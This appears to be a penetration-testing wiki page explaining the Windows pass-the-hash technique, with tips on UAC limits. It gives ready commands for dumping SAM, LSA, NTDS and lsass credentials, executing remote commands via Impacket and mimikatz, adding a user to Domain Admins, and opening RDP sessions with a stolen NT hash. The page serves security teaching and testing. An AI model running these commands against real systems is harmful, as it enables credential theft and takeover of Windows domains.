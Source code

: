 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1550.002
---
```


# Pass the hash

## Theory

An attacker knowing a user's NT hash can use it to authenticate over NTLM \(pass-the-hash\) \(or indirectly over Kerberos with [overpass-the-hash](../abusing-kerberos/pass-the-key.md)\).

## Practice

There are many tools that implement pass-the-hash: [Impacket scripts](https://github.com/SecureAuthCorp/impacket) \(Python\) \([psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py), [smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py), [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)...\), [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\), [FreeRDP](https://github.com/FreeRDP/FreeRDP) \(C\), [mimikatz](https://github.com/gentilkiwi/mimikatz) \(C\), [lsassy](https://github.com/Hackndo/lsassy) \(Python\), [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) \(Python\) and many more.

{% tabs %}
{% tab title="Credentials dumping" %}
The Impacket script [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) \(Python\) has the ability to remotely dump hashes and LSA secrets from a machine \(`LMhash` can be empty\) \(see [dumping credentials from registry hives](../credentials/dumping/#windows-computer-registry-hives)\).

```bash
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
secretsdump.py -hashes ':NThash' 'DOMAIN/USER@TARGET'
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\) has the ability to do it on a set of targets. The `bh_owned` has the ability to set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound) \(see [dumping credentials from registry hives](../credentials/dumping/#windows-computer-registry-hives)\).

```bash
crackmapexec smb $TARGETS -u $USER -H $NThash --sam --local-auth
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --lsa
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --ntds
```

[Lsassy](https://github.com/Hackndo/lsassy) \(Python\) has the ability to do it with higher success probabilities as it offers multiple dumping methods. This tool can set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound). It works in standalone but also as a [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) module \(see [dumping credentials from lsass process memory](../credentials/dumping/#windows-computer-lsass-exe)\).

```bash
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
lsassy -u $USER -H $NThash $TARGETS
lsassy -d $DOMAIN -u $USER -H $NThash $TARGETS
```
{% endtab %}

{% tab title="Command execution" %}
Some Impacket scripts enable testers to execute commands on target systems with pass-the-hash \(`LMhash` can be empty\).

```bash
psexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
smbexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
wmiexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
atexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
dcomexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\) has the ability to do it on a set of targets

```bash
crackmapexec winrm $TARGETS -d $DOMAIN -u $USER -p $PASSWORD -x whoami
crackmapexec smb $TARGETS --local-auth -u $USER -H $NThash -x whoami
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -x whoami
```

On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) \(C\) can pass-the-hash and open an elevated command prompt.

```bash
sekurlsa::pth /user:$USER /domain:$DOMAIN /ntlm:$NThash
```
{% endtab %}

{% tab title="AD operations" %}
The [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) \(Python\) can be used from a Linux system to operate LDAP queries, add a user to a group and so on \(`LMhash` can be `ffffffffffffffffffffffffffffffff`\).

```bash
pth-net rpc group members "Domain admins" -U 'Domain/User%LMhash:NThash' -S $DOMAIN_CONTROLLER
pth-net rpc group addmem "Domain admins" Shutdown -U 'Domain/Admin%LMhash:NThash' -S $DOMAIN_CONTROLLER
```
{% endtab %}

{% tab title="RDP access" %}
[FreeRDP](https://github.com/FreeRDP/FreeRDP) \(C\) has the ability to do pass-the-hash for opening RDP sessions.

```bash
xfreerdp /u:$USER /d:$DOMAIN /pth:'LMhash:NThash' /v:$TARGET /h:1010 /w:1920
```
{% endtab %}
{% endtabs %}

### Limitations, tips and tricks

{% hint style="warning" %}
**UAC limits pass-the-hash**

UAC \(User Account Control\) limits which local users can do remote administration operations. And since most of the attacks exploiting pass-the-hash rely on remote admin operations, it affects this technique.

* the registry key `LocalAccountTokenFilterPolicy` is set to `0` by default. It means that the built-in local admin account \(RID-500, "Administrator"\) is the only local account allowed to do remote administration tasks. Setting it to `1` allows the other local admins as well.
* the registry key `FilterAdministratorToken` is set to `0` by default. It allows the built-in local admin account \(RID-500, "Administrator"\) to do remote administration tasks. If set to `1`, it doesn't.

In short, by default, only the following accounts can fully take advantage of pass-the-hash:

* **local accounts** : the built-in, RID-500, "Administrator" account
* **domain accounts** : all domain accounts with local admin rights
{% endhint %}

{% hint style="info" %}
**WinRM enables pass-the-hash**

Testers should look out for environments with WinRM enabled. During the WinRM configuration, the `Enable-PSRemoting` sets the `LocalAccountTokenFilterPolicy` to `1`, allowing all local accounts with admin privileges to do remote admin tasks, hence allowing those accounts to fully take advantage of pass-the-hash.
{% endhint %}

{% hint style="info" %}
**Machine accounts**

Just like with any other domain account, a machine account's NT hash can be used with pass-the-hash, but it is not possible to operate remote operations that require local admin rights \(such as [SAM & LSA secrets dump](../credentials/dumping/sam-and-lsa-secrets.md)\). These operations can instead be conducted with a [Silver Ticket](../abusing-kerberos/forged-tickets.md#silver-ticket) since the machine accounts validates Kerberos tickets used to authenticate to a said computer/service.

A domain controller machine account's NT hash can be used with pass-the-hash to [dump the domain hashes \(NTDS.dit\)](../credentials/dumping/ntds.dit.md). 
{% endhint %}

## References

{% embed url="https://en.hackndo.com/pass-the-hash/" caption="" %}

{% embed url="https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/" caption="" %}

